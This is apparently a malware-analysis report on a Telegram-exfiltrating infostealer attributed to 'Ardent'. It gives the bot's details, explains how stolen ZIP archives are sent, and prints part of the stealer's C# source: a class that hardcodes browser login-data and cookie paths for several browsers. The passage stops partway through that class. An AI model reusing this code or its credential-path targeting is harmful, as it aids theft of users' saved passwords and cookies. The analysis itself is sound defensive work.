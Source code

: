 Testing confirms the bot is active as of April 27, 2025.

![WhatsApp Image 2025-04-27 at 00.53.41_ed6874bc.jpg](WhatsApp_Image_2025-04-27_at_00.53.41_ed6874bc.jpg)

- **Bot Details**:
    - **ID**: 8013735771
    - **Name**: botKanal
    - **Username**: botkanalchik_bot
    - **Capabilities**: Can join groups; cannot read all group messages or support inline queries.
- Tested via https://api.telegram.org/bot<token>/getMe, returned HTTP 200 OK with bot info.
- Receives ZIP archives (@ardent.zip) and captions with system info via DataDispatch.Dispatch.
- Active bot indicates ongoing data collection, impacting victims. Exposed token allows monitoring or disruption.

# **Attribution**:

- The malware internally **hardcodes the string `@ardent.zip`** during ZIP creation.
- Telegram exfiltration messages end with "**🖥️ Coded by Ardent**."
- This suggests that the malware author **self-identifies as 'ardent'**, leaving a signature embedded inside the tool itself.

# Variables

```csharp
using System;
using System.IO;
using System.Net;
using System.Security.Principal;

namespace Main
{
    public class Variables
    {
        public static string localappdata = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData);
        public static string roamingappdata = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
        public static string programFiles = Environment.GetFolderPath(Environment.SpecialFolder.ProgramFiles);
        public static string temp = Path.GetTempPath();
        public static string desktop = Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory);
        public static string LoginDataPathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Login Data";
        public static string CookiePathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Network\\Cookies";
        public static string LoginDataPathEdge = localappdata + "\\Microsoft\\Edge\\User Data\\Default\\Login Data";
        public static string LoginDataPathOperaGX = roamingappdata + "\\Opera Software\\Opera GX Stable\\Login Data";
        public static string LoginDataPathOpera = roamingappdata + "\\Opera Software\\Opera Stable\\Default\\Login data";
        public static string LoginDataPathVivaldi = localappdata + "\\Vivaldi\\User Data\\Default\\Login Data";
        public static string isChromeFound;
        public static string isOperaGXFound;
        public static string isOperaFound;
        public static string isEdgeFound;
        public static string isVivaldiFound;
        public static int allFoundPasswords;
        public static int foundChromePasswords;
        public static int foundOperaGXPasswords;
        public static int foundOperaPasswords;
```